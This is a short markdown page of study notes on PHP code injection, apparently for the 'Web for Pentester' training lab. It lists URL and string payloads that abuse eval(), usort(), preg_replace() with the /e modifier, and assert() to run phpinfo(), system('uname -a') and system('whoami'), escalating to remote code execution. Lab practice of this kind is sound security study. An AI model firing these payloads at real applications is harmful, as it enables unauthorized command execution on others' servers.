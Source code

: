 <h2>Code Injection</h2>
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

<h3>Web for Penterster</h3> 
<h3>example 1</h3> 
eval() - evaluates a string as PHP code

payload- " .phpinfo(). "  <br>
payload- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


<h3>example 2</h3> 
usort()- Sort an array by values using a user-defined comparison function

<b>payload</b>-example2.php?order=id,system('whoami') <br>
<b>payload</b>- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


<h3>example 3</h3> 
preg_replace() — Perform a regular expression search and replace

<b>payload</b> - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"  <br>
<b>payload</b> - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


<h3>example 4</h3> 
assert() - Checks if assertion is FALSE
<b>payload</b> - example4.php?name=hacker'.phpinfo().' <br>
<b>payload</b> - example4.php?name=hacker'.system('uname -a').'
